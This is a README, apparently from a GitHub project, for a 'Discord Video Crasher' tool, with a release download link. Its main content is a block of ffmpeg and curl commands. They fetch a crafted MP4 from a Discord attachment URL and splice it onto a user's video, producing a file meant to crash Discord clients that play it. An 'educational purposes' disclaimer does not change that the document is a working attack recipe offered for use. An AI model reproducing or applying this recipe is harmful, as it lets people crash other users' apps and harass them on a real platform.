 ## Discord Video Crasher

You can download the discord video crasher [here.](https://github.com/VapeLiminator/VideoCrasher/releases)



### How does it work?

It really just works very simply:

```markdown
//I'm going to ignore the specifying path's and othere stuff from here

# ffmpeg -i %videoname%.mp4 "01110101-01110101-01101000-01101000-01101000.mp4" 
# curl -ko "abc.mp4" "https://cdn.discordapp.com/attachments/965003761485492314/987416285216387142/FemaleAnimatedHyrax-mobile.mp4"
#(
#echo file 01110101-01110101-01101000-01101000-01101000.mp4
#echo file abc.mp4
#)>"uwu.txt"
#ffmpeg -f concat -i uwu.txt -codec copy %crashername%.mp4

//And that's the important part! the only thing left is removing the files we've created, and it's done.

**This has been made with educational purposes, I am not in charge for what you do with this program.**

### Need help?
NeumaticYT#6969 for error's found in the program, please do not spam, thanks.
